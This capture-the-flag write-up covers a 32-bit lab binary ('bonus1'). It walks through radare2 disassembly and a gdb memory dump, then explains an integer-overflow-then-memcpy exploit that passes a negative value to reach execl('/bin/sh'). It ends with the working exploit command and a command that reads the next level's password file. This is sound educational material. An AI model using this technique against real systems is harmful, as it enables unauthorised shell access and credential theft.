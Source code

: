 New bonus, same method. `radare2` is our friend for this file:

```bash
[0x08048370]> pdf @ sub.main_8048424
            ;-- main:
            ; ICOD XREF from sub.entry0_8048370 @ 0x8048387(r)
┌ 129: sub.main_8048424 (int32_t arg_ch);
│ `- args(sp[0x8..0x8]) vars(4:sp[0x8..0x40])
│           0x08048424      55             push ebp
│           0x08048425      89e5           mov ebp, esp
│           0x08048427      83e4f0         and esp, 0xfffffff0
│           0x0804842a      83ec40         sub esp, 0x40
│           0x0804842d      8b450c         mov eax, dword [arg_ch]
│           0x08048430      83c004         add eax, 4
│           0x08048433      8b00           mov eax, dword [eax]
│           0x08048435      890424         mov dword [esp], eax
│           0x08048438      e823ffffff     call sym.imp.atoi
│           0x0804843d      8944243c       mov dword [var_3ch], eax
│           0x08048441      837c243c09     cmp dword [var_3ch], 9
│       ┌─< 0x08048446      7e07           jle 0x804844f
│       │   0x08048448      b801000000     mov eax, 1
│      ┌──< 0x0804844d      eb54           jmp 0x80484a3
│      ││   ; CODE XREF from sub.main_8048424 @ 0x8048446(x)
│      │└─> 0x0804844f      8b44243c       mov eax, dword [var_3ch]
│      │    0x08048453      8d0c850000..   lea ecx, [eax*4]
│      │    0x0804845a      8b450c         mov eax, dword [arg_ch]
│      │    0x0804845d      83c008         add eax, 8
│      │    0x08048460      8b00           mov eax, dword [eax]
│      │    0x08048462      89c2           mov edx, eax
│      │    0x08048464      8d442414       lea eax, [var_14h]
│      │    0x08048468      894c2408       mov dword [var_8h], ecx
│      │    0x0804846c      89542404       mov dword [var_4h], edx
│      │    0x08048470      890424         mov dword [esp], eax
│      │    0x08048473      e8a8feffff     call sym.imp.memcpy
│      │    0x08048478      817c243c46..   cmp dword [var_3ch], 0x574f4c46 ; 'FLOW'
│      │┌─< 0x08048480      751c           jne 0x804849e
│      ││   0x08048482      c744240800..   mov dword [var_8h], 0
│      ││   0x0804848a      c744240480..   mov dword [var_4h], 0x8048580 ; [0x8048580:4]=0x2f006873 ; "sh"
│      ││   0x08048492      c704248385..   mov dword [esp], str._bin_sh ; [0x8048583:4]=0x6e69622f ; "/bin/sh"
│      ││   0x08048499      e8b2feffff     call sym.imp.execl
│      ││   ; CODE XREF from sub.main_8048424 @ 0x8048480(x)
│      │└─> 0x0804849e      b800000000     mov eax, 0
│      │    ; CODE XREF from sub.main_8048424 @ 0x804844d(x)
│      └──> 0x080484a3      c9             leave
└           0x080484a4      c3             ret
```

Our goal here is to **reach the part** of the main that**executes the `/bin/sh`**

The program first does `nb = atoi(av[1])`, then a **comparison to check that nb <= 9**.
Next, there's a call to `memcpy(av[2], nb * 4)`, and finally a last comparison:

```bash
0x08048478 <+84>: cmpl $0x574f4c46, 0x3c(%esp)
```

Our goal will be to give it a large enough number so that `memcpy()` copies `0x574f4c46` to `0x3c(%esp)`:

```bash
Starting program: /home/user/bonus1/bonus1 4 $(python -c 'print "A" * 16')
Breakpoint 1, 0x08048478 in main ()
(gdb) x/20wx $esp
0xbffff6d0:	0xbffff6e4	0xbffff8fa	0x00000010	0x080482fd
0xbffff6e0:	0xb7fd13e4	0x41414141	0x41414141	0x41414141
0xbffff6f0:	0x41414141	0xb7e5edc6	0xb7fd0ff4	0xb7e5ee55
0xbffff700:	0xb7fed280	0x00000000	0x080484b9	0x00000004
0xbffff710:	0x080484b0	0x00000000	0x00000000	0xb7e454d3
(gdb) x/wx $esp+0x3c
0xbffff70c:	0x00000004
```

During the comparison step, we see our 16 "A"s being copied, and the **compared address is at offset 44 (40 bytes + address)**.

So, the program needs to **copy 44 bytes**, but our **maximum input** value in the first argument is **9**.

In memory, the first bit is called the **sign bit**: it is `0` if the number is positive or zero, and `1` if negative.

Multiplying by 4 in binary is equivalent to shifting left by 2 bits.  
Example: `1 = 0001 * 4 = 0100 = 4`

We want to write 11 (because 44 / 4 = 11), and the number 11 in 32-bit binary is:  
`0000 0000 0000 0000 0000 0000 0000 1011`

So 11 \* 4 becomes:  
`0000 0000 0000 0000 0000 0000 0010 1100` → which equals 44

The smallest negative number, `int min`, is:  
`1000 0000 0000 0000 0000 0000 0000 0000`  
_(reminder: the first bit is the sign bit)_

Knowing all this, multiplying a negative number close to `int min` by 4 will cause the sign bit to shift out.

Example:

```bash
1000 0000 0000 0000 0000 0000 0000 0000
OR
1100 0000 0000 0000 0000 0000 0000 0000
```

We just need to "add" 11 to one of those values:  
`1100 0000 0000 0000 0000 0000 0000 1011` → which equals `-1073741813`

This number passes the `atoi` check since it's less than 9.  
Then, when multiplied by 4 in binary, it gives:  
`0000 0000 0000 0000 0000 0000 0010 1100` → which is 44

So now we just need to copy our 40 bytes + `0x574f4c46` (the value for the comparison):

```bash
./bonus1 -1073741813 $(python -c 'print "A" * 40 + "\x46\x4c\x4f\x57"')
```

Finally, the execve(/bin/sh) is triggered, and we can just run:

```bash
cat /home/user/bonus2/.pass
```

And get the second bonus flag !
